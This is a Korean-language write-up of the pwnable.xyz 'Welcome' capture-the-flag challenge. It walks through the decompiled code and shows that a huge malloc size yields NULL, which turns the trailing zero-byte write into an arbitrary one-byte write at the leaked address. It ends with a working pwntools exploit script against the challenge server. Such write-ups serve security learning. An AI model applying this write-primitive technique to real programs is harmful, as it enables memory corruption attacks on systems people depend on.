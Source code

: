 # [pwnable.xyz] Welcome

> Are you worthy to continue?

## Analysis

```c
  mapped = malloc(0x40000uLL);
  *mapped = 1LL;
  _printf_chk(1LL, "Leak: %p\n", mapped);
```

`0x40000` 크기의 메모리를 동적 할당하여 주소를 `mapped`에 저장한다. 이 메모리의 첫 바이트에 1을 넣고, 메모리의 주소를 출력해준다.

```c
  _printf_chk(1LL, "Length of your message: ");
  size[0] = 0LL;
  _isoc99_scanf("%lu", size);
  message = (char *)malloc(size[0]);
  _printf_chk(1LL, "Enter your message: ");
  read(0, message, size[0]);
  v5 = size[0];
  message[size[0] - 1] = 0;
  write(1, message, v5);
```

원하는 크기로 `malloc()`을 호출하여 메모리를 할당받고 그 메모리에 메시지를 쓸 수 있다. 메시지의 마지막 1바이트를 0으로 덮어쓰고, 메시지를 출력한다.

```c
  if ( !*mapped )
    system("cat /flag");
```

`mapped`의 첫 바이트가 0이면 플래그를 얻을 수 있다.

## Exploit

`mapped`의 첫 바이트를 0으로 만들 수 있는 방법은, 메시지의 마지막 1바이트를 0으로 덮어쓰는 동작을 이용하는 것밖에 없다.

```
call    malloc
lea     rsi, aEnterYourMessa ; "Enter your message: "
mov     rbp, rax
mov     edi, 1
xor     eax, eax
call    __printf_chk
mov     rdx, [rsp+28h+size] ; nbytes
xor     edi, edi        ; fd
mov     rsi, rbp        ; buf
call    read
mov     rdx, [rsp+28h+size] ; n
mov     rsi, rbp        ; buf
mov     edi, 1          ; fd
mov     byte ptr [rbp+rdx-1], 0
```

위의 어셈블리 코드의 마지막 줄이 `message[size[0] - 1]`을 0으로 덮는 부분이다. `rbp`에는 `malloc()`의 반환값이 저장되어 있고, `rdx`에는 입력한 메모리 크기가 저장되어 있다.

Size로 매우 큰 값을 전달하여 `malloc()`을 호출하면 메모리가 정상적으로 할당되지 않고 0을 반환한다. `mapped + 1`을 입력하면 `rbp`는 0이 되고 `rdx`는 `mapped + 1`이 되어, 결과적으로 `mapped`의 첫 바이트가 0으로 덮어씌워지도록 만들 수 있다.

```python
# ex.py

from pwn import *

r = remote("svc.pwnable.xyz", 30000)

r.recvuntil(b"Leak: 0x")
mapped = int(r.recvline()[:-1], 16)

r.sendlineafter(b"Length of your message: ", str(mapped + 1).encode())
r.sendlineafter(b"Enter your message: ", b"")

r.interactive()
```

![image](https://github.com/user-attachments/assets/414e99e4-9885-4cdf-97c0-54103d5578a7)

